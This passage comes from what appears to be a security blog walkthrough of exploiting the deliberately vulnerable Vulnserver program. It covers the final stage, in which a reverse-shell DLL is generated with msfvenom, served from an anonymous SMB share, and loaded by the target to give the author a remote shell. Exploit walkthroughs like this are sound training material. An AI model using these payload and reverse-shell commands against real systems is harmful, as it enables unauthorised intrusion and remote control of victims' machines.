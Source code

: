 Great\! The `LoadLibraryA` function is now ready.

## Show time

Now that we have everything set, we must now create a shellcode on a
`DLL` file and share it on an `SMB` server.

Luckily for us, `msfvenom` can create shellcodes in `DLL` format. Let’s
do that:

``` console
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=none -f dll -o pwn.dll
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
Saved as: pwn.dll
```

We also must serve that `pwn.dll` file on an `SMB` share called `X`. We
can use Impacket’s `smbserver.py` to do that:

``` console
$ sudo impacket-smbserver -smb2support X .
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

This will create a new anonymous `SMB` server, will share the current
directory `.`, using a share called `X`. The `-smb2support` parameter is
needed because Windows 10 will refuse to connect to `SMB` servers using
the `SMBv1` protocol.

We are now ready. We can check our exploit:

<div class="imgblock">

![Success](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331196/blog/vulnserver-kstet-alternative/success_mbwkf4.gif)

</div>

Yes\! We got a shell\! You can see how the victim is self-hacking by
retrieving the payload from our attacking machine\!

You can also see that `pwn.dll` is now part of the `vulnserver.exe`
executable modules:

<div class="imgblock">

![Executable modules](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331196/blog/vulnserver-kstet-alternative/modules2_bdsaow.webp)

</div>

Crazy, huh? You can download the final exploit [here](exploit.py).

## Conclusion

This was a very fun way of exploiting Vulnserver. Remember that this
technique only works if the attacking machine is adjacent to the victim
machine and there are no network restrictions between them.
